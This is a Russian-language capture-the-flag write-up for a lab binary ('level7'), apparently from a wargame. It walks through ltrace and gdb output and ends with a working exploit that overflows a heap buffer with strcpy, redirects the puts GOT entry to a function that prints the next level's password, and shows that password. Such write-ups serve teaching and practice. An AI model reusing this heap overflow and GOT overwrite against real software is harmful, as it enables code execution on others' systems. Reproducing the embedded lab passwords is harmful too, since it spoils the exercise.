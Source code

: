 # su level7
# pass: f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d

====
Уязвимость: отключена рандомизация памяти, последовательное выделение памяти (маллок), перезатереть указатель через переполнение strcpy, а потом указатель на GOT
====

**Поведение: без аргументов сегается, с двумя вывод ~~**

# ./level7
Segmentation fault (core dumped)

# ltrace ./level7 
__libc_start_main(0x8048521, 1, 0xbffff804, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                                                 = 0x0804a008
malloc(8)                                                                                 = 0x0804a018
malloc(8)                                                                                 = 0x0804a028
malloc(8)                                                                                 = 0x0804a038
strcpy(0x0804a018, NULL <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++

# ./level7 1 2
~~

# ltrace ./level7 1 2 3
__libc_start_main(0x8048521, 4, 0xbffff7e4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                                                 = 0x0804a008
malloc(8)                                                                                 = 0x0804a018
malloc(8)                                                                                 = 0x0804a028
malloc(8)                                                                                 = 0x0804a038
strcpy(0x0804a018, "1")                                                                   = 0x0804a018
strcpy(0x0804a038, "2")                                                                   = 0x0804a038
fopen("/home/user/level8/.pass", "r")                                                     = 0
fgets( <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++

Проверяем функции, переменные:

# i func
<>
0x080484f4  m
0x08048521  main
<>

# i var
<>
0x08049960  c

# x/a 0x08049960
0x8049960 <c>:  0x0

# disas main
Dump of assembler code for function main:
   0x08048521 <+0>:     push   %ebp
   0x08048522 <+1>:     mov    %esp,%ebp
   0x08048524 <+3>:     and    $0xfffffff0,%esp
   0x08048527 <+6>:     sub    $0x20,%esp
   0x0804852a <+9>:     movl   $0x8,(%esp)
   0x08048531 <+16>:    call   0x80483f0 <malloc@plt>
   0x08048536 <+21>:    mov    %eax,0x1c(%esp)
   0x0804853a <+25>:    mov    0x1c(%esp),%eax
   0x0804853e <+29>:    movl   $0x1,(%eax)
   0x08048544 <+35>:    movl   $0x8,(%esp)
   0x0804854b <+42>:    call   0x80483f0 <malloc@plt>
   0x08048550 <+47>:    mov    %eax,%edx
   0x08048552 <+49>:    mov    0x1c(%esp),%eax
   0x08048556 <+53>:    mov    %edx,0x4(%eax)
   0x08048559 <+56>:    movl   $0x8,(%esp)
   0x08048560 <+63>:    call   0x80483f0 <malloc@plt>
   0x08048565 <+68>:    mov    %eax,0x18(%esp)
   0x08048569 <+72>:    mov    0x18(%esp),%eax
   0x0804856d <+76>:    movl   $0x2,(%eax)
   0x08048573 <+82>:    movl   $0x8,(%esp)
   0x0804857a <+89>:    call   0x80483f0 <malloc@plt>
   0x0804857f <+94>:    mov    %eax,%edx
   0x08048581 <+96>:    mov    0x18(%esp),%eax
   0x08048585 <+100>:   mov    %edx,0x4(%eax)
   0x08048588 <+103>:   mov    0xc(%ebp),%eax
   0x0804858b <+106>:   add    $0x4,%eax
   0x0804858e <+109>:   mov    (%eax),%eax
   0x08048590 <+111>:   mov    %eax,%edx
   0x08048592 <+113>:   mov    0x1c(%esp),%eax
   0x08048596 <+117>:   mov    0x4(%eax),%eax
   0x08048599 <+120>:   mov    %edx,0x4(%esp)
   0x0804859d <+124>:   mov    %eax,(%esp)
   0x080485a0 <+127>:   call   0x80483e0 <strcpy@plt>
   0x080485a5 <+132>:   mov    0xc(%ebp),%eax
   0x080485a8 <+135>:   add    $0x8,%eax
   0x080485ab <+138>:   mov    (%eax),%eax
   0x080485ad <+140>:   mov    %eax,%edx
   0x080485af <+142>:   mov    0x18(%esp),%eax
   0x080485b3 <+146>:   mov    0x4(%eax),%eax
   0x080485b6 <+149>:   mov    %edx,0x4(%esp)
   0x080485ba <+153>:   mov    %eax,(%esp)
   0x080485bd <+156>:   call   0x80483e0 <strcpy@plt>
   0x080485c2 <+161>:   mov    $0x80486e9,%edx               "r"
   0x080485c7 <+166>:   mov    $0x80486eb,%eax               "/home/user/level8/.pass"
   0x080485cc <+171>:   mov    %edx,0x4(%esp)
   0x080485d0 <+175>:   mov    %eax,(%esp)
   0x080485d3 <+178>:   call   0x8048430 <fopen@plt>
   0x080485d8 <+183>:   mov    %eax,0x8(%esp)
   0x080485dc <+187>:   movl   $0x44,0x4(%esp)
   0x080485e4 <+195>:   movl   $0x8049960,(%esp)            0x8049960 <c>:   ""
   0x080485eb <+202>:   call   0x80483c0 <fgets@plt>
   0x080485f0 <+207>:   movl   $0x8048703,(%esp)            "~~"
   0x080485f7 <+214>:   call   0x8048400 <puts@plt>
   0x080485fc <+219>:   mov    $0x0,%eax
   0x08048601 <+224>:   leave  
   0x08048602 <+225>:   ret    
End of assembler dump.

# disas m
Dump of assembler code for function m:
   0x080484f4 <+0>:     push   %ebp
   0x080484f5 <+1>:     mov    %esp,%ebp
   0x080484f7 <+3>:     sub    $0x18,%esp
   0x080484fa <+6>:     movl   $0x0,(%esp)
   0x08048501 <+13>:    call   0x80483d0 <time@plt>
   0x08048506 <+18>:    mov    $0x80486e0,%edx              "%s - %d\n"
   0x0804850b <+23>:    mov    %eax,0x8(%esp)
   0x0804850f <+27>:    movl   $0x8049960,0x4(%esp)         0x8049960 <c>:   ""
   0x08048517 <+35>:    mov    %edx,(%esp)
   0x0804851a <+38>:    call   0x80483b0 <printf@plt>
   0x0804851f <+43>:    leave  
   0x08048520 <+44>:    ret    
End of assembler dump.

Также маллоки располагаются последовательно, но есть отличия. 
Есть незащищенный strcpy, а флаг сохраняется в глобальной переменной.
Вызывая strcpy в первый раз (1 аргумент) перезапишем адрес, который будет использоваться вторым strcpy, который уже положит в GOT функцию m вместо puts
{указатель1}->{значение1}{указатель2}->{значение2}
То есть сначала мы делаем так, чтобы указатель был направлен на таблицу, а потом записываем в таблицу значение (разыменовываем адрес, который записан 1 strcpy).

Найти оффсет:
# r 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A'
0x37614136 7aA6
Равен 20

# disas puts
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:     jmp    *0x8049928
   0x08048406 <+6>:     push   $0x28
   0x0804840b <+11>:    jmp    0x80483a0
End of assembler dump.

# ./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9